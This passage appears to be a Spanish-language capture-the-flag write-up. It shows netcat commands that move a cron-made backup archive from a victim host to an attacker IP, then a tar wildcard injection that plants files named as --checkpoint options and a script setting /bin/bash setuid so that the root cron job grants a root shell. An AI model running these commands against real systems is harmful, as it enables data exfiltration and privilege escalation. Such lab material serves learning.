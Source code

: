 ```bash
cd backup
stat *
stat * | grep "Modify"
```

En el directorio backup vemos que cada 5 minutos una tarea que se esta ejecutando a intervalos regulares de tiempo nos crea un archivo de backup.
Ahora tenemos que saber lo que se esta poniendo en estos backups.

1. En la maquina de atacante

    ```bash
    nc -u -nlvp 443 > dev-1627332901.tar.gz
    ```

1. En la maquina victima

    ```bash
    nc -u 10.10.14.20 443 < dev-1627332901.tar.gz
    ```

mirando el contenido de fichero comprimido, nos damos cuenta que el contenido es el mismo que el directorio development.

Saviendo esto estamos intuiendo que la tarea cron ejecuta un comando del estilo: `tar -cvf backup/test.tar.gz /home/alekos/development/*`.
Aqui el problema es que si el comando es este, el simbolo `*` permitteria burlar el comando tar con breakpoints. Lo que queremos ejecutar seria
el comando siguiente:

```bash
tar -cvf backup/test.tar.gz /home/alekos/development/* --checkpoint=1 --checkpoint-action=exec/bin/sh
```

El echo es que si el comando de la tarea cron tiene el asterisco y que ficheros tienen nombres como `--checkpoint=1` y `--checkpoint-action=exec/bin/sh`,
en vez de copiarlos, los utilizaria como argumentos del proprio comando tar.

```bash
touch privesc
chmod +x privesc

nano privesc

############privesc content##############3

#!/bin/bash

chmod 4755 /bin/bash
```

```bash
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh privesc'
```
